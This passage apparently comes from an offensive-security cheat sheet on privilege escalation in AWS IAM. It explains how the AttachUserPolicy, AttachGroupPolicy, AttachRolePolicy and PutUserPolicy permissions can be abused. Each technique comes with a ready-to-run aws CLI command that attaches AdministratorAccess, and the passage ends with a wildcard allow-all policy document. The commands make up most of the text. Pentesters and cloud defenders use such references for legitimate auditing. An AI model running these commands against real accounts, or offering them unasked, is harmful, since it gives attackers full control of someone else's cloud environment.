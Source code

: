 ```bash
aws iam attach-user-policy --user-name <my_username> \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

**Potential Impact:** Direct privesc to anything.

### `iam:AttachGroupPolicy`

An attacker with the **`iam:AttachGroupPolicy`** permission can escalate privileges by **attaching a policy to a group** that they are a part of, adding the permissions of that policy to the attacker.

```bash
aws iam attach-group-policy --group-name group_i_am_in \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

Where the group is a group the current user is a part of.

**Potential Impact:** Direct privesc to anything (if the user is inside a group).

### `iam:AttachRolePolicy`, `sts:AssumeRole`

An attacker with the **`iam:AttachRolePolicy`** permission can escalate privileges by **attaching a policy to a role** that they have access to, adding the permissions of that policy to the attacker.

```bash
aws iam attach-role-policy --role-name <role_i_can_assume> \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

Where the role is a role that the current user can temporarily assume with `sts:AssumeRole`.

**Potential Impact:** Direct privesc to anything.

### `iam:PutUserPolicy`

An attacker with the `iam:PutUserPolicy` permission can **escalate privileges by creating or updating an inline policy for a user** that they have access to, adding the permissions of that policy to the attacker.

```bash
aws iam put-user-policy --user-name <my_username> --policy-name "my_inline_policy" \
    --policy-document "file:///path/to/administrator/policy.json"
```

You can use a policy like:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "*"
            ],
            "Resource": [
                "*"
            ]
        }
    ]
}
```
